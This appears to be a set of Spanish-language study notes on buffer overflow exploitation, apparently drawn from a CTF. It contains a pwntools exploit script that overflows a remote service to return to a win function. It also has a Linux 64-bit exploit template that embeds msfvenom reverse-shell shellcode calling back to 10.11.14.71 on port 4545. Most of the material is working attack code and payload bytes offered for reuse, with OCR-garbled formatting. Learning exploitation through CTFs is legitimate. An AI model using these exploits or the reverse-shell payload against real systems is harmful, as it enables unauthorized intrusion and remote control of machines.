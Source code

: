 [https://www.corelan.be/](https://www.corelan.be/)

[LiveOverflow Channel Introduction and Backstory - bin 0x00](https://www.youtube.com/watch?v=iyAyN3GFM7A&amp;list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)

![](RackMultipart20210412-4-pcx9xb_html_ef226ddcb24d03d5.png)

-------------------------------------------------

[https://github.com/dplastico/CTF\_l4t1n\_abrl2020/tree/master/ret](https://github.com/dplastico/CTF_l4t1n_abrl2020/tree/master/ret)

from pwn import \*

#r = process(&#39;./ret&#39;)

r = remote(&#39;208.68.39.19&#39;, 4448)

#debugeando

#gdb.attach(r)

#print r.recvline()

payload =&quot;A&quot; \* cyclic\_find(&#39;kaaalaa&#39;)

payload += p64(0x401142) #ret to latin = win

payload += &quot;BBBBBBBB&quot;#padding bad exit

payload += &quot;CCCCCCCC&quot;

r.sendline(payload)

r.interactive()

_Desde \&lt;_[_https://github.com/dplastico/CTF\_l4t1n\_abrl2020/blob/master/ret/xpl.py_](https://github.com/dplastico/CTF_l4t1n_abrl2020/blob/master/ret/xpl.py)_\&gt;_



# Para Linux 64bit

Es al reves que en windows, el patrón es:

Nops + shellcode + junk + return address

Plantilla para linux 64bits

| from struct import pack

nop = &#39;\x90&#39;# msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.11.14.71 LPORT=4545 -b &#39;\x00&#39; -f pythonbuf = b&quot;&quot;buf += b&quot;\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05&quot;buf += b&quot;\xef\xff\xff\xff\x48\xbb\xc9\xbe\x91\x2c\xcc\xdd\x30&quot;buf += b&quot;\x01\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4&quot;buf += b&quot;\xa3\x97\xc9\xb5\xa6\xdf\x6f\x6b\xc8\xe0\x9e\x29\x84&quot;buf += b&quot;\x4a\x78\xb8\xcb\xbe\x80\xed\xc6\xd6\x3e\x46\x98\xf6&quot;buf += b&quot;\x18\xca\xa6\xcd\x6a\x6b\xe3\xe6\x9e\x29\xa6\xde\x6e&quot;buf += b&quot;\x49\x36\x70\xfb\x0d\x94\xd2\x35\x74\x3f\xd4\xaa\x74&quot;buf += b&quot;\x55\x95\x8b\x2e\xab\xd7\xff\x03\xbf\xb5\x30\x52\x81&quot;buf += b&quot;\x37\x76\x7e\x9b\x95\xb9\xe7\xc6\xbb\x91\x2c\xcc\xdd&quot;buf += b&quot;\x30\x01&quot;
